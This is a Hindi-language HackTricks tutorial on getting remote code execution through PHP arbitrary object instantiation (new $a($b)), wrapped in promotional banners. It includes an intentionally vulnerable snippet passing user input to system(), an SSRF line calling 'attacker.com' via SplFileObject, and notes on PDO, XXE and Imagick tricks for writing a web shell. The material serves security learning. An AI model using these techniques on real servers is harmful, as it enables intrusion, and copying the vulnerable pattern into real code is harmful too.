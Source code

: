 # PHP - RCE वस्तु निर्माण का दुरुपयोग: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>

## परिचय

जहां आप `new $_GET["a"]($_GET["a"])` जैसे एक नया विचित्र वस्तु बना सकते हैं, आप RCE प्राप्त कर सकते हैं, और [**इस लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विभिन्न तरीकों को प्रकट किया गया है जिनसे RCE प्राप्त किया जा सकता है।

## कस्टम कक्षाओं या ऑटोलोडिंग के माध्यम से RCE

निर्माण `new $a($b)` में, **चर `$a` कक्षा का नाम** दर्शाता है जिसके लिए वस्तु बनाई जाएगी, और चर **`$b` वह पहला तर्क है** जो वस्तु के निर्माणकर्ता को पारित किया जाएगा।

यदि `$a` और `$b` GET/POST से आते हैं, तो वे **स्ट्रिंग या स्ट्रिंग एरे** हो सकते हैं। यदि वे **JSON** या कहीं और से आते हैं, तो उनमें **अन्य प्रकार** हो सकते हैं, जैसे कि वस्तु या बूलियन।

निम्नलिखित उदाहरण को विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
function App2 ($cmd) {
system($cmd);
}
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस कोड में, आप  `$a`  को  `App`  या  `App2`  पर सेट कर सकते हैं और  `$b`  को  `uname -a`  पर सेट कर सकते हैं। इसके बाद, कमांड  `uname -a`  को निष्पादित किया जाएगा।

जब आपके एप्लिकेशन में ऐसी कोई भी अधिकारीत क्लासेस नहीं होती हैं, या आपके पास आवश्यक क्लास एक अलग फ़ाइल में होती है जिसे विकल्पीय कोड द्वारा सम्मिलित नहीं किया जाता है, तो आप ऑटोलोडिंग फ़ंक्शन्स पर नज़र डाल सकते हैं।

**ऑटोलोडिंग फ़ंक्शन्स** को `spl_autoload_register` के माध्यम से कॉलबैक्स को रजिस्टर करके या `__autoload` को परिभाषित करके सेट किया जाता है। ये वही समय पर कॉल किए जाते हैं जब एक अज्ञात क्लास की एक इंस्टेंस बनाने की कोशिश की जा रही होती है।
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
आपके पास PHP संस्करण और ऑटोलोडिंग फ़ंक्शन में कोड के आधार पर, ऑटोलोडिंग के माध्यम से रिमोट कोड एक्सीक्यूशन प्राप्त करने के कुछ तरीके मौजूद हो सकते हैं।

## बिल्ट-इन क्लास के माध्यम से RCE

जब आपके पास कस्टम क्लास और ऑटोलोडिंग नहीं होती है, तो आप **केवल बिल्ट-इन PHP क्लासों पर निर्भर कर सकते हैं**।

PHP संस्करण और स्थापित एक्सटेंशन के आधार पर 100 से 200 तक बिल्ट-इन PHP क्लासें होती हैं। सभी बिल्ट-इन क्लासें `get_declared_classes` फ़ंक्शन के माध्यम से सूचीबद्ध की जा सकती हैं, कस्टम क्लासों के साथ:
```php
var_dump(get_declared_classes());
```
कारणों के लिए [प्रतिबिंबन API](https://www.php.net/manual/en/book.reflection.php) का उपयोग करके उपयोगी कंस्ट्रक्टर वाली कक्षाएं ढूंढ़ी जा सकती हैं।

प्रतिबिंबन API का उपयोग करके कंस्ट्रक्टर और उनके पैरामीटरों को प्रदर्शित करना: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

यदि आपके पास **एकाधिक कंस्ट्रक्टर पैरामीटर को नियंत्रित करने की अनुमति है और उसके बाद किसी भी विचारहीन विधि को कॉल कर सकते हैं**, तो रिमोट कोड निष्पादन प्राप्त करने के कई तरीके हैं। लेकिन यदि आप **केवल एक पैरामीटर पास कर सकते हैं और निर्मित ऑब्जेक्ट को कोई कॉल नहीं है**, तो वहां **लगभग कुछ नहीं** है।

मुझे `new $a($b)` से कुछ प्राप्त करने के लिए केवल तीन तरीके पता है।

### **SSRF + Phar डिसीरियलाइज़ेशन**

`SplFileObject` कक्षा एक कंस्ट्रक्टर को लागू करती है जो किसी भी स्थानीय या दूरस्थ URL से कनेक्शन करने की अनुमति देता है:
```
new SplFileObject('http://attacker.com/');
```
यह SSRF को संभव बनाता है। इसके अलावा, PHP < 8.0 में SSRF को Phar प्रोटोकॉल के साथ तकनीकों के माध्यम से डिसीरियलाइज़ेशन में बदला जा सकता है।

### **PDOs का शोषण करना**

PDO कक्षा में एक और दिलचस्प निर्माता होता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
`PDO` कंस्ट्रक्टर DSN स्ट्रिंग्स स्वीकार करता है, जिससे हम **स्थानीय या दूरस्थ डेटाबेस** से **संपर्क स्थापित कर सकते हैं** उपयुक्त डेटाबेस एक्सटेंशन का उपयोग करके। उदाहरण के लिए, SQLite एक्सटेंशन खाली फ़ाइलें बना सकता है।

### **SoapClient/SimpleXMLElement XXE**

PHP ≤ 5.3.22 और ≤ 5.4.12 में, SoapClient का कंस्ट्रक्टर **XXE के लिए संकटग्रस्त था**। SimpleXMLElement का कंस्ट्रक्टर भी XXE के लिए संकटग्रस्त था, लेकिन इसके लिए libxml2 < 2.9 की आवश्यकता थी।

## Imagick एक्सटेंशन के माध्यम से RCE

आपको उत्पाद की **आवश्यकताओं** की जांच करनी चाहिए जिसे आप उत्पाद को शोषण करने की कोशिश कर रहे हैं, आपको नए कक्षाओं को मिल सकता है जिनका उपयोग करके आप कमांड्स को निष्पादित करने के लिए दुरुपयोग कर सकते हैं। इस मामले में, इमेजिक उस उद्देश्य के लिए उपयोगी पाया गया था।

### VID पार्सर

VID पार्सर फ़ाइलसिस्टम के अंदर किसी भी मानवीय मार्ग में एक अनिवार्य सामग्री लिखने की अनुमति देता है, जिससे हमलावार को वेब पृष्ठ से पहुंचने योग्य फ़ोल्डर में एक PHPshell लिखने और RCE प्राप्त करने की अनुमति होती है।

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID पार्सर + फ़ाइल अपलोड

जब PHP में एक फ़ाइल अपलोड की जाती है, तो यह अस्थायी रूप से `/tmp/phpXXXXXX` में संग्रहीत की जाती है। Imagick का VID पार्सर **msl** प्रोटोकॉल के साथ फ़ाइल पथ में **वाइल्डकार्ड निर्दिष्ट करने की अनुमति देता है** (ताकि अस्थायी अपलोड की गई फ़ाइल आसानी से पहुंची जा सके) और इसे किसी भी अनिवार्य स्थान पर **कॉपी कर सकता है**।\
यह फ़ाइल सिस्टम के अंदर अनिवार्य फ़ाइल लेखन प्राप्त करने का एक और तरीका है:

![](<../../../.gitbook/assets/image (159).png>)

### PHP क्रैश + ब्रूट फ़ोर्स

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में एक और तरीका बताया गया था जिससे **निश्चित सामग्री वाली फ़ाइलें अपलोड की जा सकती थीं** और सर्वर **उस फ़ाइल को हटाने से पहले क्रैश हो जाता था** और फिर **अस्थायी फ़ाइल के नाम को ब्रूटफ़ोर्स करके** Imagick द्वारा अनिवार्य PHP कोड को निष्पादित करने का प्रयास किया जाता था।

हालांकि, जाहिर है कि **क्रैश ट्रिक** केवल **पुराने संस्करण के ImageMagick में काम करता था**।

## संदर्भ

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह

- प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण करें।**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>
